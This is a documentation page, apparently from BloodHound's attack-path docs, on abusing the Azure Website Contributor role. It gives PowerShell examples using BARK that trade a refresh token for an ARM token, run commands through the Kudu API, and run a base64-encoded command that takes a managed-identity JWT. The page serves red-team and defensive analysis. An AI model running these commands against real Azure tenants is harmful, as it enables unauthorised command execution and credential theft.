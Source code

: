 ---
title: AZWebsiteContributor
description: "The Website Contributor role grants full control of the target Function App or Web App. Full control of either of those types of resources allows for arbitrary command execution against the target resoruce."
---

<Frame>
  <img src="/assets/image-2-1.png"/>
</Frame>


## Abuse Info

You can use BARK’s Invoke-AzureRMWebAppShellCommand function to execute commands on a target Web App. You can use BARK’s New-PowerShellFunctionAppFunction, Get-AzureFunctionAppMasterKeys, and Get-AzureFunctionOutput functions to execute arbitrary commands against a target Function App.

These functions require you to supply an Azure Resource Manager scoped JWT associated with the principal that has the privilege to execute commands on the web app or function app. There are several ways to acquire a JWT. For example, you may use BARK’s Get-ARMTokenWithRefreshToken to acquire an Azure RM-scoped JWT by supplying a refresh token:

```bash
$ARMToken = Get-ARMTokenWithRefreshToken `
    -RefreshToken "0.ARwA6WgJJ9X2qk..." `
    -TenantID "contoso.onmicrosoft.com"
```
Now you can use BARK’s Invoke-AzureRMWebAppShellCommand function to execute a command against the target Web App. For example, to run a simple “whoami” command:

```bash
Invoke-AzureRMWebAppShellCommand `
    -KuduURI "https://mycoolwindowswebapp.scm.azurewebsites.net/api/command" `
    -Token $ARMToken `
    -Command "whoami"
```
If the Web App has a managed identity assignments, you can use BARK’s Invoke-AzureRMWebAppShellCommand function to retrieve a JWT for the managed identity Service Principal like this:

```bash
PS C:\> $PowerShellCommand =
        $headers=@{"X-IDENTITY-HEADER"=$env:IDENTITY_HEADER}
        $response = Invoke-WebRequest -UseBasicParsing -Uri "$($env:IDENTITY_ENDPOINT)?resource=https://storage.azure.com/&api-version=2019-08-01" -Headers $headers
        $response.RawContent

PS C:\> $base64Cmd = [System.Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($PowerShellCommand))

PS C:\> $Command = "powershell -enc $($base64Cmd)"

PS C:\> Invoke-AzureRMWebAppShellCommand `
        -KuduURI "https://mycoolwindowswebapp.scm.azurewebsites.net/api/command" `
        -token $ARMToken `
        -Command $Command

```
If successful, the output will include a JWT for the managed identity service principal.

## Opsec Considerations

This will depend on which particular abuse you perform, but in general Azure will create a log event for each abuse.

## References

* [https://github.com/BloodHoundAD/BARK](https://github.com/BloodHoundAD/BARK)
* [https://www.netspi.com/blog/technical/cloud-penetration-testing/lateral-movement-azure-app-services/](https://www.netspi.com/blog/technical/cloud-penetration-testing/lateral-movement-azure-app-services/)
* [https://posts.specterops.io/abusing-azure-app-service-managed-identity-assignments-c3adefccff95](https://posts.specterops.io/abusing-azure-app-service-managed-identity-assignments-c3adefccff95)
